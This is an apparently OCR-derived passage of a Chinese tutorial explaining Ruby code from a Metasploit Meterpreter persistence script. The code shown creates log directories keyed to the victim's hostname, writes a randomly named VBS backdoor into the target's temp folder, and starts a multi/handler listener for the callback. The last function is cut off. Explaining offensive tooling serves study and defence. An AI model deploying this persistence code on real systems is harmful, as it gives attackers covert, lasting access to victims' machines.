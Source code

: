 下一个函数用于创建持久脚本。根据有效负载和随脚本传递的其他参数值创建脚本。

```
# Function for creating log folder and returning log path
#-------------------------------------------------------------------------------
def log_file(log_path = nil)
#Get hostname
host = @client.sys.config.sysinfo["Computer"]
# Create Filename info to be appended to downloaded files
filenameinfo = "_" + ::Time.now.strftime("%Y%m%d.%M%S")
# Create a directory for the logs
if log_path
logs = ::File.join(log_path, 'logs', 'persistence', Rex::FileUtils.clean_path(host + filenameinfo) )
else
logs = ::File.join(Msf::Config.log_directory, 'persistence', Rex::FileUtils.clean_path(host + filenameinfo) )
end
# Create the log directory
::FileUtils.mkdir_p(logs)
#logfile name
logfile = logs + ::File::Separator + Rex::FileUtils.clean_path(host + filenameinfo) + ".rc"
return logfile
end 
```

下一个函数用于为脚本创建日志目录。 `host = @client.sys.config.sysinfo["Computer"]`调用提取受害目标的系统信息。目录和文件名是使用 Rex:：FileUtils 库创建的，该库负责执行文件和目录操作。

```
# Function for writing script to target host
#-------------------------------------------------------------------------------
def write_script_to_target(target_dir,vbs)
if target_dir
tempdir = target_dir
else
tempdir = @client.fs.file.expand_path("%TEMP%")
end
tempvbs = tempdir + "\\" + Rex::Text.rand_text_alpha((rand(8)+6)) + ".vbs"
fd = @client.fs.file.new(tempvbs, "wb")
fd.write(vbs)
fd.close
print_good("Persistent Script written to #{tempvbs}")
file_local_write(@clean_up_rc, "rm #{tempvbs}\n")
return tempvbs
end 
```

此函数开始将文件写入磁盘。它将各种后门文件保存在前面函数中创建的文件夹和目录中。 `Rex::Text.rand_text_alpha((rand(8)+6)) + ".vbs"`调用为要在临时目录中创建的文件名生成随机文本。 `fd.write()`调用将文件写入磁盘。

```
# Function for setting multi handler for autocon
#-------------------------------------------------------------------------------
def set_handler(selected_payload,rhost,rport)
print_status("Starting connection handler at port #{rport} for #{selected_payload}")
mul = client.framework.exploits.create("multi/handler")
mul.datastore['WORKSPACE'] = @client.workspace
mul.datastore['PAYLOAD'] = selected_payload
mul.datastore['LHOST'] = rhost
mul.datastore['LPORT'] = rport
mul.datastore['EXITFUNC'] = 'process'
mul.datastore['ExitOnSession'] = false
mul.exploit_simple(
'Payload' => mul.datastore['PAYLOAD'],
'RunAsJob' => true
)
```